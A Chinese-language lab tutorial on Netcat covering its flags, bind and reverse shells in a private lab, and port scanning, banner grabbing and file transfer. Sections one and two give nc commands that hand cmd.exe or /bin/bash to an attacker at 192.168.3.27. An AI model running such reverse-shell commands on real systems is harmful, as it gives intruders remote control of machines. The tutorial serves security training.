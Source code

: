 # Netcat反弹Shell

`Netcat`简称NC,是一个简单、可靠的网络工具,被誉为网络界的瑞士军刀。

通NC可以进行端口扫描、反弹Shell、端口监听和文件传输等操作,常用参数如下：

| -**c** | 指定连接后要执行的**shell**命令                              |
| ------ | ------------------------------------------------------------ |
| -e     | 指定连接后要执行的文件名                                     |
| -k     | 配置 Socket一直存活(若不想退出 Shell后使监听断开可使用此参数) |
| -l     | 监听模式                                                     |
| -p     | 设置本地主机使用的通信端口                                   |
| -u     | 使用UDP传输协议,默认为TCP                                    |
| -v     | 显示指令执行过程,用-vv会更详细                               |

```
nc -lvvp 1111
```

## 一、正向反弹**Shell**

### **1**、实验拓扑

![img](https://img.gyxnb.top/img/clip_image001.jpg)

| 机器名称 | 机器**IP**   |
| -------- | ------------ |
| 攻击机器 | 192.168.3.27 |
| 目标靶机 | 192.168.3.29 |

### **2**、实验介绍

攻击者机器 `192.168.3.27` 和靶机![img](https://img.gyxnb.top/img/clip_image005-168398338723211.gif) `192.168.3.29`![img](https://img.gyxnb.top/img/clip_image007-168398338723212.gif)可以相互的访问， 这个时候可以使用正向shell

### **3**、实验复现

#### \1) 在靶机上运行：

```
nc -lvvp 1111 -e  C:\Windows\System32\cmd.exe  windows机器  
nc -lvvp 1111 -e  /bin/bash  linux机器  
```

![img](https://img.gyxnb.top/img/clip_image009.gif)

#### \2) 在攻击机上运行

```
 nc 192.168.3.29 1111  
```

![img](https://img.gyxnb.top/img/clip_image010-168398338723213.jpg)

#### \3) 拿到正向的shell

![img](https://img.gyxnb.top/img/clip_image012-168398338723214.gif)

## 二、反向反弹**Shell** 

### **1**、实验拓扑

![img](https://img.gyxnb.top/img/clip_image001.jpg)

| 机器名称 | 机器**IP**   |
| -------- | ------------ |
| 攻击机器 | 192.168.3.27 |
| 目标靶机 | 192.168.3.29 |

### **2**、实验介绍

攻击者机器`192.168.3.27`不能直接访问靶机， 但是靶机![img](https://img.gyxnb.top/img/clip_image019.gif) `192.168.3.29`可以访问攻击者的机器， 这个时候使用反 向shell

### **3**、实验复现

#### \1) 在攻击者机器运行

```
nc -lvvp 1111 监听1111端口  
```

#### \2)  在靶机上运行  (反弹到公网)

```
 nc -e C:\Windows\System32\cmd.exe  192.168.3.27 1111  windos机器  
 nc -e  /bin/bash  192.168.3.27 1111  linux机器  
```

#### \3) 拿到反向的shell

![img](https://img.gyxnb.top/img/clip_image021.jpg)

## 三、 **Nc**的其他用法

### **1**、 **Banner** 的抓取

靶机运行着ssh服务， 可以查看服务的版本

```
nc -nv IP Port  
```

![img](https://img.gyxnb.top/img/clip_image023.gif)

### **2**、端口探测

#### 可以查看端口的开放情况

```
nc -v IP Port 
```

![img](https://img.gyxnb.top/img/clip_image025.gif)

#### 多端口扫描：

```
nc -v -z IP 1-65535  
```

![img](https://img.gyxnb.top/img/clip_image029.gif)

### **3**、端口监听

监听端口， 当访问该端口会输出该信息

```
 nc -l -p Port  
```

![img](https://img.gyxnb.top/img/clip_image030.jpg)

### **4**、文件传输

```
接受端： nc -lp Port > file

发送端： nc -vn IP Port < file -q 1 (windows是-w， Linux是-q)

nc -lp 1111 > 1.txt
nc -vn 192.168.70.8 1111 < 1.txt -w 1
type 1.txt
```

#### 1、  接收端文件夹下为空

![img](https://img.gyxnb.top/img/clip_image032.gif)

#### 2、  接收端执行命令

![img](https://img.gyxnb.top/img/clip_image034.gif)

![img](https://img.gyxnb.top/img/clip_image035.jpg)

#### 4、  接收端接收到文件

![img](https://img.gyxnb.top/img/clip_image037.gif)

### **5**、简易聊天

#### 1、vps执行 

```
nc -l -p Port

nc -lp 1111
```

![img](https://img.gyxnb.top/img/clip_image039.gif)

#### 2、靶机执行：

```
nc -vn IP Port

nc -vn 192.168.70.8 1111
```

![img](https://img.gyxnb.top/img/clip_image040.jpg)

### **6**、连接远程主机

```
命令 nc -nvv IP port
```